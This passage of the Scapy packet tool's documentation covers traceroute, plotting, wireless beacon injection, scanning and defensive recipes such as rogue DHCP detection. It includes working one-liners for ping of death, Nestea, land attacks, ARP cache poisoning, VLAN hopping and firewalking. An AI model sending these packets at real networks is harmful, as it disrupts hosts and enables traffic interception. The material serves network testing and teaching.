    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.254   eth0
    192.168.1.1     255.255.255.255 192.168.8.1     eth0
    >>> conf.route.resync()
    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0

Gnuplot
-------

.. index::
   single: Gnuplot, plot()

We can easily plot some harvested values using Gnuplot. (Make sure that you have Gnuplot-py and Gnuplot installed.)
For example, we can observe the IP ID patterns to know how many distinct IP stacks are used behind a load balancer::

    >>> a,b=sr(IP(dst="www.target.com")/TCP(sport=[RandShort()]*1000))
    >>> a.plot(lambda x:x[1].id)
    <Gnuplot._Gnuplot.Gnuplot instance at 0xb7d6a74c>

.. image:: graphics/ipid.png


TCP traceroute (2)
------------------

.. index::
   single: traceroute(), Traceroute

Scapy also has a powerful TCP traceroute function. Unlike other traceroute programs that wait for each node to reply before going to the next, scapy sends all the packets at the same time. This has the disadvantage that it can't know when to stop (thus the maxttl parameter) but the great advantage that it took less than 3 seconds to get this multi-target traceroute result::

    >>> traceroute(["www.yahoo.com","www.altavista.com","www.wisenut.com","www.copernic.com"],maxttl=20)
    Received 80 packets, got 80 answers, remaining 0 packets
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.243.5.254       82.243.5.254       82.243.5.254       82.243.5.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.46       212.27.50.46       212.27.50.46       212.27.50.46       
    5  212.27.50.37       212.27.50.41       212.27.50.37       212.27.50.41       
    6  212.27.50.34       212.27.50.34       213.228.3.234      193.251.251.69     
    7  213.248.71.141     217.118.239.149    208.184.231.214    193.251.241.178    
    8  213.248.65.81      217.118.224.44     64.125.31.129      193.251.242.98     
    9  213.248.70.14      213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.45.10.88    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 193.45.10.88    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 193.45.10.88    SA 206.24.226.99      64.125.28.209      66.218.64.146      
    13 193.45.10.88    SA 206.24.227.106     64.125.29.45       66.218.82.230      
    14 193.45.10.88    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 193.45.10.88    SA 216.109.120.149    64.124.229.109     66.94.229.254   SA 
    16 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    (<Traceroute: UDP:0 TCP:28 ICMP:52 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)

The last line is in fact a the result of the function : a traceroute result object and a packet list of unanswered packets. The traceroute result is a more specialised version (a subclass, in fact) of a classic result object. We can save it to consult the traceroute result again a bit later, or to deeply inspect one of the answers, for example to check padding.

    >>> result,unans=_
    >>> result.show()
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    [...]
    >>> result.filter(lambda x: Padding in x[1])

Like any result object, traceroute objects can be added :

    >>> r2,unans=traceroute(["www.voila.com"],maxttl=20)
    Received 19 packets, got 19 answers, remaining 1 packets
       195.101.94.25:80   
    1  192.168.8.1        
    2  82.251.4.254     
    3  213.228.4.254      
    4  212.27.50.169      
    5  212.27.50.162      
    6  193.252.161.97     
    7  193.252.103.86     
    8  193.252.103.77     
    9  193.252.101.1      
    10 193.252.227.245    
    12 195.101.94.25   SA 
    13 195.101.94.25   SA 
    14 195.101.94.25   SA 
    15 195.101.94.25   SA 
    16 195.101.94.25   SA 
    17 195.101.94.25   SA 
    18 195.101.94.25   SA 
    19 195.101.94.25   SA 
    20 195.101.94.25   SA 
    >>>
    >>> r3=result+r2
    >>> r3.show()
       195.101.94.25:80   212.23.37.13:80    216.109.118.72:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.169      212.27.50.169      212.27.50.46       -                  212.27.50.46       
    5  212.27.50.162      212.27.50.162      212.27.50.37       212.27.50.41       212.27.50.37       
    6  193.252.161.97     194.68.129.168     212.27.50.34       213.228.3.234      193.251.251.69     
    7  193.252.103.86     212.23.42.33       217.118.239.185    208.184.231.214    193.251.241.178    
    8  193.252.103.77     212.23.42.6        217.118.224.44     64.125.31.129      193.251.242.98     
    9  193.252.101.1      212.23.37.13    SA 213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.252.227.245    212.23.37.13    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 -                  212.23.37.13    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 195.101.94.25   SA 212.23.37.13    SA 206.24.226.100     64.125.28.209      216.115.101.46     
    13 195.101.94.25   SA 212.23.37.13    SA 206.24.238.166     64.125.29.45       66.218.82.234      
    14 195.101.94.25   SA 212.23.37.13    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 195.101.94.25   SA 212.23.37.13    SA 216.109.120.151    64.124.229.109     66.94.229.254   SA 
    16 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 

Traceroute result object also have a very neat feature: they can make a directed graph from all the routes they got, and cluster them by AS. You will need graphviz. By default, ImageMagick is used to display the graph.

    >>> res,unans = traceroute(["www.microsoft.com","www.cisco.com","www.yahoo.com","www.wanadoo.fr","www.pacsec.com"],dport=[80,443],maxttl=20,retry=-2)
    Received 190 packets, got 190 answers, remaining 10 packets
       193.252.122.103:443 193.252.122.103:80 198.133.219.25:443 198.133.219.25:80  207.46...
    1  192.168.8.1         192.168.8.1        192.168.8.1        192.168.8.1        192.16...
    2  82.251.4.254        82.251.4.254       82.251.4.254       82.251.4.254       82.251...
    3  213.228.4.254       213.228.4.254      213.228.4.254      213.228.4.254      213.22...
    [...]
    >>> res.graph()                          # piped to ImageMagick's display program. Image below.
    >>> res.graph(type="ps",target="| lp")   # piped to postscript printer
    >>> res.graph(target="> /tmp/graph.svg") # saved to file 

.. image:: graphics/graph_traceroute.png

If you have VPython installed, you also can have a 3D representation of the traceroute. With the right button, you can rotate the scene, with the middle button, you can zoom, with the left button, you can move the scene. If you click on a ball, it's IP will appear/disappear. If you Ctrl-click on a ball, ports 21, 22, 23, 25, 80 and 443 will be scanned and the result displayed::

    >>> res.trace3D()

.. image:: graphics/trace3d_1.png

.. image:: graphics/trace3d_2.png

Wireless frame injection
------------------------

.. index::
   single: FakeAP, Dot11, wireless, WLAN

Provided that your wireless card and driver are correctly configured for frame injection

::

    $ ifconfig wlan0 up
    $ iwpriv wlan0 hostapd 1
    $ ifconfig wlan0ap up

you can have a kind of FakeAP::

    >>> sendp(Dot11(addr1="ff:ff:ff:ff:ff:ff",addr2=RandMAC(),addr3=RandMAC())/
              Dot11Beacon(cap="ESS")/
              Dot11Elt(ID="SSID",info=RandString(RandNum(1,50)))/
              Dot11Elt(ID="Rates",info='\x82\x84\x0b\x16')/
              Dot11Elt(ID="DSset",info="\x03")/
              Dot11Elt(ID="TIM",info="\x00\x01\x00\x00"),iface="wlan0ap",loop=1) 


Simple one-liners
=================

Classical attacks
-----------------

Malformed packets::

    send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP()) 

Ping of death (Muuahahah)::

    send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) ) 

Nestea attack::

    send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10)) 
    send(IP(dst=target, id=42, frag=48)/("X"*116)) 
    send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224)) 
    
Land attack (designed for Microsoft Windows)::

    send(IP(src=target,dst=target)/TCP(sport=135,dport=135))

ARP cache poisoning   
------------------- 
This attack prevents a client from joining the gateway by poisoning 
its ARP cache through a VLAN hopping attack. 

Classic ARP cache poisoning::

    send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client), 
          inter=RandNum(10,40), loop=1 ) 

ARP cache poisoning with double 802.1q encapsulation::
 
    send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2) 
          /ARP(op="who-has", psrc=gateway, pdst=client),
          inter=RandNum(10,40), loop=1 )

TCP Port Scanning 
-----------------
 
Send a TCP SYN on each port. Wait for a SYN-ACK or a RST or an ICMP error:: 

    res,unans = sr( IP(dst="target") 
                    /TCP(flags="S", dport=(1,1024)) ) 

Possible result visualization: open ports

::

    res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
    
    
IKE Scanning
------------

We try to identify VPN concentrators by sending ISAKMP Security Association proposals
and receiving the answers::

    res,unans = sr( IP(dst="192.168.1.*")/UDP()
                    /ISAKMP(init_cookie=RandString(8), exch_type="identity prot.") 
                    /ISAKMP_payload_SA(prop=ISAKMP_payload_Proposal()) 
                  ) 

Visualizing the results in a list::

    res.nsummary(prn=lambda (s,r): r.src, lfilter=lambda (s,r): r.haslayer(ISAKMP) ) 
    
    
UDP traceroute
--------------

Tracerouting an UDP application like we do with TCP is not 
reliable, because there's no handshake. We need to give an applicative payload (DNS, ISAKMP, 
NTP, etc.) to deserve an answer::

    res,unans = sr(IP(dst="target", ttl=(1,20))
                  /UDP()/DNS(qd=DNSQR(qname="test.com")) 

We can visualize the results as a list of routers::

    res.make_table(lambda (s,r): (s.dst, s.ttl, r.src)) 



Etherleaking 
------------

::

    >>> sr1(IP(dst="172.16.1.232")/ICMP()) 
    <IP src=172.16.1.232 proto=1 [...] |<ICMP code=0 type=0 [...]| 
    <Padding load=’0O\x02\x01\x00\x04\x06public\xa2B\x02\x02\x1e’ |>>> 

ICMP leaking
------------ 

This was a Linux 2.0 bug:: 

    >>> sr1(IP(dst="172.16.1.1", options="\x02")/ICMP()) 
    <IP src=172.16.1.1 [...] |<ICMP code=0 type=12 [...] | 
    <IPerror src=172.16.1.24 options=’\x02\x00\x00\x00’ [...] | 
    <ICMPerror code=0 type=8 id=0x0 seq=0x0 chksum=0xf7ff | 
    <Padding load=’\x00[...]\x00\x1d.\x00V\x1f\xaf\xd9\xd4;\xca’ |>>>>> 


VLAN hopping 
------------

In very specific conditions, a double 802.1q encapsulation will 
make a packet jump to another VLAN::
 
    >>> sendp(Ether()/Dot1Q(vlan=2)/Dot1Q(vlan=7)/IP(dst=target)/ICMP()) 



Recipes 
=======

Simplistic ARP Monitor
----------------------

This program uses the ``sniff()`` callback (paramter prn). The store parameter is set to 0 so that the ``sniff()`` function will not store anything (as it would do otherwise) and thus can run forever. The filter parameter is used for better performances on high load : the filter is applied inside the kernel and Scapy will only see ARP traffic.

::

    #! /usr/bin/env python
    from scapy.all import *
    
    def arp_monitor_callback(pkt):
        if ARP in pkt and pkt[ARP].op in (1,2): #who-has or is-at
            return pkt.sprintf("%ARP.hwsrc% %ARP.psrc%")
    
    sniff(prn=arp_monitor_callback, filter="arp", store=0)

Identifying rogue DHCP servers on your LAN 
-------------------------------------------

.. index::
   single: DHCP

Problem
^^^^^^^

You suspect that someone has installed an additional, unauthorized DHCP server on your LAN -- either unintentiously or maliciously. 
Thus you want to check for any active DHCP servers and identify their IP and MAC addresses.  

Solution
^^^^^^^^

Use Scapy to send a DHCP discover request and analyze the replies::

    >>> conf.checkIPaddr = False
    >>> fam,hw = get_if_raw_hwaddr(conf.iface)
    >>> dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
    >>> ans, unans = srp(dhcp_discover, multi=True)      # Press CTRL-C after several seconds
    Begin emission:
    Finished to send 1 packets.
    .*...*..
    Received 8 packets, got 2 answers, remaining 0 packets

In this case we got 2 replies, so there were two active DHCP servers on the test network::

    >>> ans.summarize()
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.1:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.11:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
    }}}
    We are only interested in the MAC and IP addresses of the replies: 
    {{{
    >>> for p in ans: print p[1][Ether].src, p[1][IP].src
    ...
    00:de:ad:be:ef:00 192.168.1.1
    00:11:11:22:22:33 192.168.1.11

Discussion
^^^^^^^^^^

We specify ``multi=True`` to make Scapy wait for more answer packets after the first response is received.
This is also the reason why we can't use the more convenient ``dhcp_request()`` function and have to construct the DCHP packet manually: ``dhcp_request()`` uses ``srp1()`` for sending and receiving and thus would immediately return after the first answer packet. 

Moreover, Scapy normally makes sure that replies come from the same IP address the stimulus was sent to. But our DHCP packet is sent to the IP broadcast address (255.255.255.255) and any answer packet will have the IP address of the replying DHCP server as its source IP address (e.g. 192.168.1.1). Because these IP addresses don't match, we have to disable Scapy's check with ``conf.checkIPaddr = False`` before sending the stimulus.  

See also
^^^^^^^^

http://en.wikipedia.org/wiki/Rogue_DHCP


Firewalking 
-----------

TTL decrementation after a filtering operation 
only not filtered packets generate an ICMP TTL exceeded 

    >>> ans, unans = sr(IP(dst="172.16.4.27", ttl=16)/TCP(dport=(1,1024))) 
    >>> for s,r in ans: 
            if r.haslayer(ICMP) and r.payload.type == 11: 
                print s.dport 

Find subnets on a multi-NIC firewall 
only his own NIC’s IP are reachable with this TTL:: 

    >>> ans, unans = sr(IP(dst="172.16.5/24", ttl=15)/TCP()) 
    >>> for i in unans: print i.dst


Viewing packets with Wireshark
------------------------------

.. index::
   single: wireshark()

Problem
^^^^^^^

You have generated or sniffed some packets with Scapy and want to view them with `Wireshark <http://www.wireshark.com>`_, because of its advanced packet dissection abilities.

Solution
^^^^^^^^

That's what the ``wireshark()`` function is for:

    >>> packets = Ether()/IP(dst=Net("google.com/30"))/ICMP()     # first generate some packets
    >>> wireshark(packets)                                        # show them with Wireshark

Wireshark will start in the background and show your packets.
 
Discussion
^^^^^^^^^^

The ``wireshark()`` function generates a temporary pcap-file containing your packets, starts Wireshark in the background and makes it read the file on startup.   

Please remember that Wireshark works with Layer 2 packets (usually called "frames"). So we had to add an ``Ether()`` header to our ICMP packets. Passing just IP packets (layer 3) to Wireshark will give strange results.

You can tell Scapy where to find the Wireshark executable by changing the ``conf.prog.wireshark`` configuration setting.




